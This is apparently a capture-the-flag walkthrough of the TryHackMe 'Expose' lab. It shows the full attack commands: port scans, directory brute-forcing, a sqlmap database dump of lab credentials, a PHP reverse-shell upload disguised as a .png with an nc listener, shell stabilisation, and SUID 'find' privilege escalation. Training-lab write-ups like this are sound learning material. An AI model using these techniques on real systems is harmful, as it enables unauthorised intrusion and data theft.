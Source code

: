 # Expose

**Room Link:** [https://tryhackme.com/room/expose](https://tryhackme.com/room/expose)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (363).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (364).png" alt=""><figcaption></figcaption></figure>

### TCP/1337 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM:1337 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (365).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (366).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (367).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (368).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
sqlmap -r request.txt --dbms=mysql --dump
```

<figure><img src="../../.gitbook/assets/image (369).png" alt=""><figcaption></figcaption></figure>



```
+--------------------------------------+--------------------------------------+--------------------------------------+--------------------------------------+
| id                                   | email                                | created                              | password                             |
+--------------------------------------+--------------------------------------+--------------------------------------+--------------------------------------+
| 2023-02-21 09:05:46                  | 2023-02-21 09:05:46                  | 2023-02-21 09:05:46                  | 2023-02-21 09:05:46                  |
| hacker@root.thm                      | hacker@root.thm                      | hacker@root.thm                      | hacker@root.thm                      |
| 1                                    | 1                                    | 1                                    | 1                                    |
| VeryDifficultPassword!!#@#@!#!@#1231 | VeryDifficultPassword!!#@#@!#!@#1231 | VeryDifficultPassword!!#@#@!#!@#1231 | VeryDifficultPassword!!#@#@!#!@#1231 |
+--------------------------------------+--------------------------------------+--------------------------------------+--------------------------------------+

```

There are two URLs here, the second one needs a username which we don't have so we'll start with the first one.

<figure><img src="../../.gitbook/assets/image (371).png" alt=""><figcaption></figcaption></figure>

```
+----+------------------------------+-----------------------------------------------------+
| id | url                          | password                                            |
+----+------------------------------+-----------------------------------------------------+
| 1  | /file1010111/index.php       | 69c66901194a6486176e81f5945b8929 (easytohack)       |
| 3  | /upload-cv00101011/index.php | // ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z |
+----+------------------------------+-----------------------------------------------------+

```

**Brower - /file1010111/index.php** &#x20;

```
Username: hacker@root.thm
Password: VeryDifficultPassword!!#@#@!#!@#1231
```

<figure><img src="../../.gitbook/assets/image (370).png" alt=""><figcaption></figcaption></figure>

**Browser**

```
Password: easytohack
```

<figure><img src="../../.gitbook/assets/image (372).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (373).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (374).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (376).png" alt=""><figcaption></figcaption></figure>

**Browser - /upload-cv00101011/index.php**&#x20;

```
Password: zeamkish
```

<figure><img src="../../.gitbook/assets/image (377).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (378).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
cd php-reverse-shell/
cp php-reverse-shell.php php-reverse-shell.php#.png
nc -lvnp 1337 
```

<figure><img src="../../.gitbook/assets/image (379).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (380).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (382).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (381).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (383).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (384).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

<figure><img src="../../.gitbook/assets/image (385).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh zeamkish@$VICTIM
Password: easytohack@123
```

## Privilege Escalation

**Victim**

```
find / -perm -4000 2>/dev/null
find . -exec /bin/sh -p \; -quit
```

<figure><img src="../../.gitbook/assets/image (386).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (387).png" alt=""><figcaption></figcaption></figure>



















